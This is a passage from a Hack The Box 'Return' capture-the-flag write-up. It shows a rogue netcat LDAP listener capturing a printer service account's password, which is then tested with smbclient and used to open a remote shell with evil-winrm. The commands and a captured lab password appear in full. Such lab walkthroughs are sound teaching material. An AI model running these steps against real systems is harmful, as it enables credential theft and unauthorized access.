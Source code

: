 Upon navigating to the `settings.php` endpoint, a form was discovered, prompting users to input server details, ports, and credentials.

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/ctf/htb/return]
└─$ nc -nlvp 389                         
listening on [any] 389 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.108] 57960
0*`%return\svc-printer�
                       1edFg43012!!^C
```

To further investigate, a fake server was crafted by listening on port `389`, allowing the website to establish a connection. Subsequently, a string resembling a password and a system username were observed.

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/ctf/htb/return]
└─$ smbclient -L \\\\10.10.11.108 -U svc-printer   
Password for [WORKGROUP\svc-printer]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.108 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

The credentials obtained appeared to be valid for the user `svc-printer`.

# SHELL AS SVC-PRINTER

If the `svc-printer` user belonged to the `Remote Management Users` group, we could leverage `winrm`, which operates on port `5985`, to attain a shell for this user.

```bash
┌──(kali㉿kali)-[~/Documents/ctf/htb]
└─$ evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
